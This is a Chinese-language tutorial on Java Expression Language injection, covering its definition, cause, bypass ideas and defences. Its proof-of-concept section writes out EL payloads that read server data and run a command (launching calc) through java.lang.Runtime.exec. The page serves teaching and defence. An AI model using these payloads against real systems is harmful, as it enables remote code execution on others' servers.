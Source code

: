 # 表达式注入漏洞

## 1、概述

### 1.1、定义

表达式注入漏洞类似远程代码执行漏洞（原理上），但远程代码执行漏洞是直接注入代码原生语句，而表达式注入漏洞是基于代码之上构建的执行逻辑。

一定意义上，表达式是代码的浓缩，同时也具备像代码一样可被执行的属性。

> Java语言方面的表达式EL（Expression Language），主要包括一下内容：
>
> - SpEL表达式（Spring）
> - OGNL表达式（Struts2、Confluence）

### 1.2、EL简介

EL是为了让让JSP写起来更加简单，提供了在JSP中简化表达式的方法。

EL表达式的主要功能有：

- 获取数据
- 执行运算
- 获取Web开发常用队形
- 调用Java方法

## 2、漏洞分析

### 2.1、原理

表达式外部可控导致攻击者可以注入恶意表达式来实现任意代码执行。

EL表达式注入漏洞的外部可控点一般是在Java程序代码中，即Java程序中的EL表达式内容全部或部分是从外部获取的。

### 2.2、通用Poc

```java
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}
```

比如在Java程序中可以控制输入EL表达式如下：

```java
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```

如果该EL表达式直接在JSP页面中执行，则触发任意代码执行漏洞

但是在实际场景中，是几乎没有也无法直接从外部控制JSP页面中的EL表达式的。而目前已知的EL表达式注入漏洞都是框架层面服务端执行的EL表达式外部可控导致的。

### 2.3、绕过

1. 反射
2. unicode
3. 八进制

## 3、漏洞挖掘

使用工具进行扫描

## 4、漏洞防御

1. 尽量不使用外部输入的内容作为EL表达式内容
2. 若使用，需严格过滤EL表达式注入漏洞的payload关键字
3. 排查Java程序中JUEL相关代码，可以搜索下面的关键类方法：

```java
javax.el.ExpressionFactory.createValueExpression()
javax.el.ValueExpression.getValue()
```

## 5、实验

实验12

也可以参考下面的文章学习

[表达式注入漏洞复现](https://wooyun.x10sec.org/static/bugs/wooyun-2016-0195845.html)